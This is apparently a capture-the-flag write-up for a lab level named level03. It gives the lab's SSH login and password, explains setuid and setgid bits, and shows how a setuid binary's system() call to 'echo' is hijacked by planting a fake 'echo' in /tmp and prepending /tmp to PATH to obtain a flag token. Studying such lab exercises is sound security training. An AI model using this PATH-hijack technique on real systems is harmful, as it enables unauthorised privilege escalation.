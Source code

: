 
ssh level03@10.12.100.98 -p 4242
pwd: kooda2puivaav1idi4f57q8iq

In the home we found a binary file `level03`

first thing to notice when `ls`-ing the dir are the file permissions:
`rwsr-sr-x`
**owner**: has read, write, [SUID permissions](https://www.zzee.com/solutions/linux-permissions.shtml)
**group**: read and SGID permissions

```

the setguid bit set = if the file were executed, that it would be 
run with the effective rights of the group owner (instead of that of
the user who executed it) aka : you inherit the permissions of that 
program's owner.

On a directory, the setgid bit means that, if a file is created in 
the directory, its group-owner would be that of the directory 
(instead of that of the user who created it).   

```
[StackOverflow](https://stackoverflow.com/questions/9129959/how-to-set-a-file-to-this-drwxrwsrwx-permission-on-ubuntu#:~:text=The%20group%20owner%20permissions%20in,is%20the%20s%20in%20rws%20)

if we execute `./level03`, it outputs the msg: `Exploit me`

```
strings level03
    /usr/bin/env echo Exploit me
```
tracing the call of the executable either with strings or ltrace ull notice:

`system("/usr/bin/env echo Exploit me")`

u could check [this thread](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447) on StackOverflow

Whenever user type some command in shell, it first search that command in the list of directories mentioned in PATH environment variable. {[Quora](https://www.quora.com/How-are-commands-executed-in-Linux)}


so on the system function call we can override the behavior of echo to inject our getflag command which is built-in /bin/getflag 

`echo "/bin/getflag" > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH`

```
 echo "echo getflag" >> /tmp/echo
 chmod 777 /tmp/echo
 export PATH=/tmp:$PATH
```


```
 ./level03
    token : qi0maab88jeaj46qoumi7maus
 ```